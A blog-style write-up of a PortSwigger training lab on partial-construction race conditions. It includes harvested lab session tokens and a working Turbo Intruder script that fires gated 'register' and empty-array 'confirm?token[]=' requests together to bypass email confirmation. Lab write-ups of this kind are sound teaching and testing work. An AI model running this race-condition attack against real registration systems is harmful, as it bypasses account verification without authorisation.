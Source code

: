 # solution-lab-race-conditions-partial-construction

When I noticed on the evening of Thursday the 9th of August that James
Kettle had published new research, [Smashing the state machine: the true potential of web race conditions](https://portswigger.net/research/smashing-the-state-machine) 
in connection with his talk at Defcon 2023 I was super exited to dig into
it. I was, however, also dead tired from spending the day exploring Vienna,
Austria with my family. So I promised myself I'd get started on the train
home the following day.

By early Saturday afternoon I had already finished the *apprentice* and
*practitioner* labs, and so I settled in for the 
new expert lab, [Partial construction race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-partial-construction).

It's tricky, as promised in James' article.

## My approach

One of the first things that I noticed was the phpsessionid cookie, which
is mentioned in both the research paper, and the academy article as being
something which would force requests to be sequential, and which would mask
race condition vulnerabilities. So I decided that my first step would be to
create a valid sessions, and gather the *phpsessionid* and corresponding
anti-csrf tokens.

I wasted about 4 hours trying to figure out how to use Burp macros and how
I could use the extracted variables in Turbo Intruder. I still believe
there's a way to make this work, but I finally decided to be a bit more
pragmatic. The key realisation is this: once a session is generated it's
likely to be valid for some time, possibly the entire lifetime of the lab
instance. So we can just generate them in advance in the stock Intruder.

**screenshot here - intruder request**
**screenshot here - intruder extraction**
**screenshot here - intruder output**

Here's the request I used in Intruder:

```
```

Here's an example of the Intruder attack output. I just did a select all,
copy in the intruder output and pasted it into a file called
*sessions.txt*:

```
0		200	false	false	3147	wXjqeZ18d0p4orBWLRrws1JxPudsHBYp	jsmKE2V5e6kjazHLnP2SKstCQz1kaUQu	
1	0	200	false	false	3147	wX3xGn0tXJNsy6IO2C1vHE6E6UEu02Mz	1XsQ0sju2ZdexPQAdgeNNF5iXam8Rw52	
2	1	200	false	false	3147	0IrTeheHwCkaHkAZt383a7SS78VmiYMZ	driecRa3rIxHe3EXcngVCSGyy91AqpCH	
3	2	200	false	false	3147	rqpEdsfbYPlHj87T7wnYAj7Lo6ZROkyC	XpxZvfGzRqdlgsPRSiuxPNiArMWMUuI8	
~~~
97	96	200	false	false	3147	LebKIrc0hVlbONMVPVKlJ8H7yjOW3pD1	DJMwwAendB5reAfsZnYczptOefZc4NCV	
98	97	200	false	false	3147	dRr3IcrF804i8BebS3kLjZfUJgy2maVF	06ASdOwrFItk4mM6XEXWIFZQMRyZNXnX	
99	98	200	false	false	3147	IQrkT05XeVPhdhjgolVqvChdWWyaMhHK	wMDEwWqsfFeNkmQ8ZT4b3k97TDYDTqkn	
100	99	200	false	false	3147	H2MIypAPjMvFd5RjxmSThB0P82TwEaCO	HE2tPZ9HWAKMhpc8vWzdMeVDZPPyryJl	
```

Turbo-Intruder request:
```
```

Turbo-Intruder configuration:

```
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # the 'gate' argument withholds the final byte of each request until openGate is invoked
    for line in open('/tmp/sessions.txt'):
        data = line.split('\t')
        phpsessionid = data[6]
        csrf = data[7]
        username = randstr(8)
        engine.queue(target.req, ['register',       phpsessionid, csrf, username, username], gate='race1', learn=1)
        engine.queue(target.req, ['confirm?token[]=', phpsessionid, csrf, username, username], gate='race1', learn=2)

    # once every 'race1' tagged request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate('race1')
    #engine.openGate('race2')


def handleResponse(req, interesting):
    table.add(req)

```

